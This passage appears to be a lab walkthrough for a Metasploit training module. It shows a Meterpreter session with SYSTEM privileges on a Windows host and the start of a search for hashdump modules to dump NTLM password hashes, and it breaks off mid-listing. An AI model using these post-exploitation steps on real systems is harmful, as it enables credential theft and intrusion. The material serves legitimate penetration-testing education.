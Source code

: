 ```shell
shell
whoami
```
```
meterpreter > shell

Process 10284 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.2628]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami

whoami
nt authority\system
```

Answer: `nt authority\system`

# Meterpreter

## Question 2

### "Retrieve the NTLM password hash for the "htb-student" user. Submit the hash as the answer."

Students first need to background the previously established `meterpreter` session:

```shell
background
```
```
meterpreter > background

[*] Backgrounding session 1...
```

Then, students need to search for the `hashdump` post-exploitation module:

```shell
search hashdump
```
```
msf6 exploit(windows/http/fortilogger_arbitrary_fileupload) > search hashdump

Matching Modules
================

   #   Name                                                  Disclosure Date  Rank    Check  Description
   -   ----                                                  ---------------  ----    -----  -----------
   0   post/aix/hashdump                                                      normal  No     AIX Gather Dump Password Hashes
   1   post/android/gather/hashdump                                           normal  No     Android Gather Dump Password Hashes for Android Systems
   2   post/bsd/gather/hashdump                                               normal  No     BSD Dump Password Hashes
   3   auxiliary/scanner/smb/impacket/secretsdump                             normal  No     DCOM Exec
   4   auxiliary/gather/ldap_hashdump                        2020-07-23       normal  No     LDAP Information Disclosure
   5   post/linux/gather/hashdump                                             normal  No     Linux Gather Dump Password Hashes for Linux Systems
```